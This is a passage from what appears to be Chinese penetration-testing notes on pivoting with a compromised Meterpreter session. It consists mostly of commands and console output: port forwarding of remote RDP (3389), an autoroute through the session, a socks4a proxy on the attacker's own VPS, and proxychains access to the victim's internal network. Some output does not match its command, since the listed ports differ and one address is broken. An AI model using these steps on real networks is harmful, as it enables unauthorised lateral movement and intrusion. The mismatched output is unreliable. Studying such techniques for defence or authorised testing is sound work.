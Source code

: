 ## 端口转发

    
    
    meterpreter > portfwd add -l 1234 -p 3389 -r 10.42.0.54
    [*] Local TCP relay created: 0.0.0.0:8081 <-> 10.42.0.54:80
    

将远程主机3389端口转发到本地1234端口上

## 内网代理

### Windows

    
    
    meterpreter > run autoroute -s 10.42.0`.54
    [*] Adding a route to 10.42.0.54/255.255.255.0...
    [+] Added route to 10.42.0.54/255.255.255.0 via 10.42.0.54
    [*] Use the -p option to list all active routes
    meterpreter > background
    [*] Backgrounding session 1...
    msf exploit(handler) > use auxiliary/server/socks4a
    msf auxiliary(socks4a) > show options    
    
    Module options (auxiliary/server/socks4a):
    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    SRVHOST  0.0.0.0          yes       The address to listen on
    SRVPORT  1080             yes       The port to listen on.    
    
    Auxiliary action:
    Name   Description
    ----   -----------
    Proxy      
    
    msf auxiliary(socks4a) > route print
    Active Routing Table
    ====================
    Subnet             Netmask            Gateway
    ------             -------            -------
    10.42.0.54         255.255.255.0      Session 1    
    
    msf auxiliary(socks4a) > ifconfig
    [*] exec: ifconfig    
    
    msf auxiliary(socks4a) > set SRVHOST xxx.xxx.xx.xx
    SRVHOST => xxx.xxx.xx.xx (xxx.xxx.xx.xx为自己运行msf的vps机子)    
    
    msf auxiliary(socks4a) > exploit
    [*] Auxiliary module execution completed
    [*] Starting the socks4a proxy server
    

之后使用proxychains 设置socks4代理 链接vps上的1080端口 就可以访问内网了

### SSH代理
